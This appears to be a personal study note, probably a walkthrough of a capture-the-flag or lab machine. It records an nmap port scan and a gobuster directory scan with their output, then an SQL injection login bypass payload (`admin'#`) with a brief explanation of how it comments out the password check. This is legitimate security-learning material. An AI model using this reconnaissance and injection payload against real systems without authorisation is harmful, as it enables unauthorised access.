 ```yaml
---
tags:
  - hacking
---
```

# Topics

> [!hint] See also [[SQL]]

- SQL

# Steps

- Ping target machine
- Do a port scan using [[nmap]]

```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-08-31 23:32 CEST
Nmap scan report for <target_ip>
Host is up (0.025s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.56 seconds

```

- Connection to the server via a browser yields this website
![[IMG-2024-08-31-235123937.png]]

- Use [[gobuster]] to scan for any open websites

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://<target_ip>/
[+] Threads      : 10
[+] Wordlist     : Discovery/Web-Content/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2024/09/01 00:02:17 Starting gobuster
=====================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/fonts (Status: 301)
=====================================================
2024/09/01 00:06:26 Finished
=====================================================
```

- Use a fake login name
	- `admin'#`
	- The closing quote closes the query. The hash comments out the rest of the query. This effectively bypasses the query for the password and allows any password to be used.
